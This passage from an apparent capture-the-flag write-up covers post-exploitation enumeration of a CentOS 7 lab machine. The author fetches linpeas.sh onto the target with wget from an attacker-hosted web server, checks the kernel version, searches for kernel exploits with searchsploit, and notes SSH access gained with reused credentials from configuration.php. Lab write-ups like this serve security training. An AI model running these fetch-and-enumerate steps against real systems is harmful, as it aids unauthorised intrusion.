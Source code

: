 ##### Rabbit-Hole: Linpeas + old OS/Kernel

Next, let's get Linpeas on that machine. I host a quick web server from my `~/Downloads` folder with `python3 -m http.server 8000`. Then, from the target, I run:

```bash
wget http://10.6.90.119:8000/linpeas.sh
```

When we run that, [most of what it finds](linpeas.log) is going to be related to the old OS and old Linux kernel. Running:

```bash
uname -a

cat /etc/os-release
```

Respectively produce:

```text
# uname
Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux

# /etc/os-release
NAME="CentOS Linux"
VERSION="7 (Core)"
ID="centos"
ID_LIKE="rhel fedora"
VERSION_ID="7"
PRETTY_NAME="CentOS Linux 7 (Core)"
ANSI_COLOR="0;31"
CPE_NAME="cpe:/o:centos:centos:7"
HOME_URL="https://www.centos.org/"
BUG_REPORT_URL="https://bugs.centos.org/"

CENTOS_MANTISBT_PROJECT="CentOS-7"
CENTOS_MANTISBT_PROJECT_VERSION="7"
REDHAT_SUPPORT_PRODUCT="centos"
REDHAT_SUPPORT_PRODUCT_VERSION="7"
```

So, doing a:

```bash
searchsploit linux kernel 3.10.0
```

There are several exact matches. Ultimately, I find credentials in `/configuration.php`, so I abandoned this path.

### Privilege Escalation / Privileged Access

We are currently SSH'ed into the target as `jjameson` using the password found in `/var/www/html/configuration.php`. We can run a: `sudo -l`:
